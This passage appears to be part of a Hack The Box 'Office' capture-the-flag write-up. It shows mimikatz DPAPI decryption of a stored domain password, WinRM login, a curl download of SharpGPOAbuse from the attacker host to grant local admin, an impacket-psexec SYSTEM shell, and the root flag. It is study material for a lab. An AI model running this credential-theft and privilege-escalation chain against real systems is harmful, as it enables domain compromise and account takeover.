mimikatz # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 **BLOB** dwVersion : 00000001 - 1 guidProvider : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb} dwMasterKeyVersion : 00000001 - 1 guidMasterKey : {191d3f9d-7959-4b4d-a520-a444853c47eb} dwFlags : 20000000 - 536870912 (system ; ) dwDescriptionLen : 0000003a - 58 szDescription : Enterprise Credential Data algCrypt : 00006603 - 26115 (CALG_3DES) dwAlgCryptLen : 000000c0 - 192 dwSaltLen : 00000010 - 16 pbSalt : 649c4466d5d647dd2c595f4e43fb7e1d dwHmacKeyLen : 00000000 - 0 pbHmackKey : algHash : 00008004 - 32772 (CALG_SHA1) dwAlgHashLen : 000000a0 - 160 dwHmac2KeyLen : 00000010 - 16 pbHmack2Key : 32e88dfd1927fdef0ede5abf2c024e3a dwDataLen : 000000c0 - 192 pbData : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97 dwSignLen : 00000014 - 20 pbSign : 21bfb22ca38e0a802e38065458cecef00b450976We need guidmasterkey → 191d3f9d-7959-4b4d-a520-a444853c47eb
- Then we need the value of the masterkey to decrypt it. We can use RPC, so we don’t need the user’s password. We already have an active session as ppotts
mimikatz # dpapi::masterkey /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc **MASTERKEYS** dwVersion : 00000002 - 2 szGuid : {191d3f9d-7959-4b4d-a520-a444853c47eb} dwFlags : 00000000 - 0 dwMasterKeyLen : 00000088 - 136 dwBackupKeyLen : 00000068 - 104 dwCredHistLen : 00000000 - 0 dwDomainKeyLen : 00000174 - 372 [masterkey] **MASTERKEY** dwVersion : 00000002 - 2 salt : c521daa0857ee4fa6e4246266081e94c rounds : 00004650 - 18000 algHash : 00008009 - 32777 (CALG_HMAC) algCrypt : 00006603 - 26115 (CALG_3DES) pbKey : 1107e1ab3e107528a73a2dafc0a2db28de1ea0a07e92cff03a935635013435d75e41797f612903d6eea41a8fc4f7ebe8d2fbecb0c74cdebb1e7df3c692682a066faa3edf107792d116584625cc97f0094384a5be811e9d5ce84e5f032704330609171c973008d84f [backupkey] **MASTERKEY** dwVersion : 00000002 - 2 salt : a2741b13d7261697be4241ebbe05098a rounds : 00004650 - 18000 algHash : 00008009 - 32777 (CALG_HMAC) algCrypt : 00006603 - 26115 (CALG_3DES) pbKey : 21bf24763fbb1400010c08fccc5423fe7da8190c61d3006f2d5efd5ea586f463116805692bae637b2ab548828b3afb9313edc715edd11dc21143f4ce91f4f67afe987005320d3209 [domainkey] **DOMAINKEY** dwVersion : 00000002 - 2 dwSecretLen : 00000100 - 256 dwAccesscheckLen : 00000058 - 88 guidMasterKey : {e523832a-e126-4d6e-ac04-ed10da72b32f} pbSecret : 159613bdc2d90dd4834a37e29873ce04c74722a706d0ba4770865039b3520ff46cf9c9281542665df2e72db48f67e16e2014e07b88f8b2f7d376a8b9d47041768d650c20661aee31dc340aead98b7600662d2dc320b4f89cf7384c2a47809c024adf0694048c38d6e1e3e10e8bd7baa7a6f1214cd3a029f8372225b2df9754c19e2ae4bc5ff4b85755b4c2dfc89add9f73c54ac45a221e5a72d3efe491aa6da8fb0104a983be20af3280ae68783e8648df413d082fa7d25506e9e6de1aadbf9cf93ec8dfc5fab4bfe1dd1492dbb679b1fa25c3f15fb8500c6021f518c74e42cd4b5d5d6e1057f912db5479ebda56892f346b4e9bf6404906c7cd65a54eea2842 pbAccesscheck : 1430b9a3c4ab2e9d5f61dd6c62aab8e1742338623f08461fe991cccd5b3e4621d4c8e322650460181967c409c20efcf02e8936c007f7a506566d66ba57448aa8c3524f0b9cf881afcbb80c9d8c341026f3d45382f63f8665 Auto SID from path seems to be: S-1-5-21-1199398058-4196589450-691661856-1107 [domainkey] with RPC [DC] 'office.htb' will be the domain [DC] 'DC.office.htb' will be the DC server key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166 sha1: 85285eb368befb1670633b05ce58ca4d75c73c77The masterkey is →
87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166 - Decrypt the credential file
mimikatz # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166 **BLOB** dwVersion : 00000001 - 1 guidProvider : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb} dwMasterKeyVersion : 00000001 - 1 guidMasterKey : {191d3f9d-7959-4b4d-a520-a444853c47eb} dwFlags : 20000000 - 536870912 (system ; ) dwDescriptionLen : 0000003a - 58 szDescription : Enterprise Credential Data algCrypt : 00006603 - 26115 (CALG_3DES) dwAlgCryptLen : 000000c0 - 192 dwSaltLen : 00000010 - 16 pbSalt : 649c4466d5d647dd2c595f4e43fb7e1d dwHmacKeyLen : 00000000 - 0 pbHmackKey : algHash : 00008004 - 32772 (CALG_SHA1) dwAlgHashLen : 000000a0 - 160 dwHmac2KeyLen : 00000010 - 16 pbHmack2Key : 32e88dfd1927fdef0ede5abf2c024e3a dwDataLen : 000000c0 - 192 pbData : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97 dwSignLen : 00000014 - 20 pbSign : 21bfb22ca38e0a802e38065458cecef00b450976 Decrypting Credential: * volatile cache: GUID:{191d3f9d-7959-4b4d-a520-a444853c47eb};KeyHash:85285eb368befb1670633b05ce58ca4d75c73c77 * masterkey : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166 **CREDENTIAL** credFlags : 00000030 - 48 credSize : 000000be - 190 credUnk0 : 00000000 - 0 Type : 00000002 - 2 - domain_password Flags : 00000000 - 0 LastWritten : 5/9/2023 11:03:21 PM unkFlagsOrSize : 00000018 - 24 Persist : 00000003 - 3 - enterprise AttributeCount : 00000000 - 0 unk0 : 00000000 - 0 unk1 : 00000000 - 0 TargetName : Domain:interactive=OFFICE\HHogan UnkData : (null) Comment : (null) TargetAlias : (null) UserName : OFFICE\HHogan CredentialBlob : H4ppyFtW183# Attributes : 0Credentials → OFFICE\HHogan:H4ppyFtW183#
- We can use these credentials to login over winrm
┌──(parallels㉿kali)-[~/…/HTB/office/mimikatz/x64] └─$ cme winrm -u HHogan -p 'H4ppyFtW183#' -dc 10.10.11.3 -d office.htb HTTP 10.10.11.3 5985 DC [*] http://10.10.11.3:5985/wsman HTTP 10.10.11.3 5985 DC [+] office.htb\HHogan:H4ppyFtW183# (Pwn3d!)evil-winrm -i 10.10.11.3 -u hhogan -p 'H4ppyFtW183#'
GPO Abuse
Hhogan is part of the GPO Managers group, which has GenericWrite permissions over a GPO. We might be able to use this to add our current user as a localAdministrator

- Upload SharpGPOAbuse to victim and execute
https://github.com/FSecureLABS/SharpGPOAbuse
curl http://10.10.16.6:88/SharpGPOAbuse.exe -o SharpGPOAbuse.exe .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount Hhogan --GPOName "DEFAULT DOMAIN POLICY" --force [+] Domain = office.htb [+] Domain Controller = DC.office.htb [+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb [+] SID Value of Hhogan = S-1-5-21-1199398058-4196589450-691661856-1108 [+] GUID of "DEFAULT DOMAIN POLICY" is: {31B2F340-016D-11D2-945F-00C04FB984F9} [+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf [+] The GPO does not specify any group memberships. [+] versionNumber attribute changed successfully [+] The version number in GPT.ini was increased successfully. [+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle. [+] Done! - Update group policies, check local administrators, and we can see our user
gpupdate /force *Evil-WinRM* PS C:\Users\HHogan> net localgroup Administrators Alias name Administrators Comment Administrators have complete and unrestricted access to the computer/domain Members ------------------------------------------------------------------------------- Administrator HHogan The command completed successfully. - We now have access to the administrator folder, and we have the root flag → 8566bf816a079640efd5276bd01cf394
- We can also get SYSTEM using psexec
Impacket Deep Dives Vol. 1: Command Execution - Pwn all the things
Psexec requires credentials for a user with local administrator privileges or higher since reading/writing to the
ADMIN$share is required. Once you successfully authenticate, it will drop you into aNT AUTHORITY\SYSTEMshell.┌──(parallels㉿kali)-[~/…/HTB/office/mimikatz/x64] └─$ impacket-psexec HHogan:'H4ppyFtW183#'@10.10.11.3 Impacket v0.11.0 - Copyright 2023 Fortra [*] Requesting shares on 10.10.11.3..... [*] Found writable share ADMIN$ [*] Uploading file KkopmHnb.exe [*] Opening SVCManager on 10.10.11.3..... [*] Creating service Vbdn on 10.10.11.3..... [*] Starting service Vbdn..... [!] Press help for extra shell commands Microsoft Windows [Version 10.0.20348.2322] (c) Microsoft Corporation. All rights reserved. C:\Windows\system32> whoami nt authority\system